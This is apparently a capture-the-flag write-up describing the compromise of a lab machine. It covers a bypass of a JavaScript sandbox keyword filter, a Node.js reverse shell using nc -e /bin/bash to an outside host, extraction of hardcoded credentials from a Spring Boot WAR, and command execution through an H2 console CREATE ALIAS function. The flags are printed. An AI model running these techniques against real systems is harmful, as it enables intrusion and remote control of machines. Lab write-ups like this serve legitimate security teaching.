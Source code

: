 # Nmap

After scanning the machine with nmap, there are 3 ports open: `22`, `5000` and `8080`.

```bash
nmap --top-ports 1000 10.0.10.99 -sV
```

![](screenshots/1.png)

```
PORT     STATE SERVICE
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.0 (protocol 2.0)
5000/tcp open  tcpwrapped
8080/tcp open  http-proxy
```

The service on port `5000` died from the portscan. The machine had to be restarted.

# 5000
There is a text based telnet like service on port `5000`. 

![](screenshots/2.png)

After experimenting with the inputs, it turns out it is a javascript interpreter, but certain keywords (`+`, `eval`, `btoa`, etc.) are filtered.

![](screenshots/3.png)

With `Function` and `decodeURIComponent`, the blacklist can be bypassed and can run arbitrary script.

```
Function(decodeURIComponent("<urlencoded>"))() 
```

Running the code below (swapping the blacklisted parts with the method above) can open a reverse shell.

```js
var cp = null
cp = require('child_process')
var s = null
s = cp.spawn
s('nc',['10.0.1.2', 4444, '-e', '/bin/bash']) 
```

![](screenshots/4.png)

The flag is in the user's home directory.

![](screenshots/5.png)

# Flag 1
`flag{off_5_58c90a12b6000de2b030b694e54f3ead}`

# 8080
On the other port, there is a website with login form.

![](screenshots/6.png)

As we are already inside the machine, the processes can be checked. Most likely the `java` process is running on the port `8080`, with the jar file `/opt/cookbook.war`. Also the database password is visible on the command line.

![](screenshots/7.png)

The file is readable by anyone. 

![](screenshots/8.png)

The ~~war~~ jar file can be analyzed locally. The jar files are using zip as container. The following can be gathered from the file.

 - Springboot app, running on port `8080`.
 - The [WEB-INF\classes\data.sql](workdir/data.sql) has an initial database with working credentials.
   ```sql
   insert into user (id, dtype, username, password) values
       (1, 'Cook', 'AzureDiamond', 'hunter2'),
       (2, 'Cook', 'jane', '1q2w3e'); 
   ```
 - [WEB-INF\classes\cookbook\configuration\SecurityConfiguration.class](workdir/SecurityConfiguration.class) contains a `/h2-console/` route.
   ```java
   @Configuration
   @EnableWebSecurity
   public class SecurityConfiguration extends WebSecurityConfigurerAdapter {
      @Autowired
      private DataSource dataSource;
      @Autowired
      private CookbookService cookbookService;
    
      protected void configure(AuthenticationManagerBuilder auth) throws Exception {
         ((JdbcUserDetailsManagerConfigurer)auth.jdbcAuthentication().dataSource(this.dataSource).   passwordEncoder(NoOpPasswordEncoder.getInstance())).usersByUsernameQuery("select username, password,    true from user where username=?");
      }
    
      protected void configure(HttpSecurity http) throws Exception {
         ((HttpSecurity)((FormLoginConfigurer)((FormLoginConfigurer)((HttpSecurity)((HttpSecurity)   ((HttpSecurity)((AuthorizedUrl)((AuthorizedUrl)((AuthorizedUrl)http.authorizeRequests().antMatchers   (new String[]{"/css/**"})).permitAll().antMatchers(new String[]{"/h2-console/**"})).permitAll().   anyRequest()).authenticated().and()).csrf().ignoringAntMatchers(new String[]{"/h2-console/**"} ).and   ()).headers().frameOptions().sameOrigin().and()).formLogin().loginPage("/login").permitAll()).   successHandler(new 2(this))).and()).logout().logoutSuccessHandler(new 1(this)).permitAll();
      }
   }
   ```
 - [WEB-INF\classes\application.properties](workdir/application.properties) has the database details.
   ```ini
   spring.datasource.url=jdbc:h2:mem:testdb
   spring.datasource.driverClassName=org.h2.Driver
   spring.datasource.username=admin2
   spring.datasource.password=
    
   spring.jpa.show-sql=false
   spring.h2.console.enabled=true
   spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
   spring.jpa.open-in-view=false
    
   spring.mvc.view.prefix=/WEB-INF/views/
   spring.mvc.view.suffix=.jsp 
   ```

With the database config and password from command line, the H2 console can be used to connect to the in-memory database.

Unfortunately, the H2 database is not available remotely.

![](screenshots/9.png)

Fortunately, we have code execution already. Creating a reverse proxy allows connecting from "localhost".

```
socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080
```

Logging in from here is trivial with `application.properties` and the command line.

![](screenshots/10.png)

It is possible to run code through the database by creating java a function.

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```

![](screenshots/11.png)

And calling it.

```sql
CALL EXECVE('/root/flag');
```

![](screenshots/12.png)

The flag is not a txt, but a binary, running it outputs the flag. It is checking a few things (for example password hash for root), so the easiest is running it on the machine itself.

# Flag 2
`flag{off_6_58c90a12b6000de2b030b694e54f3ead}`
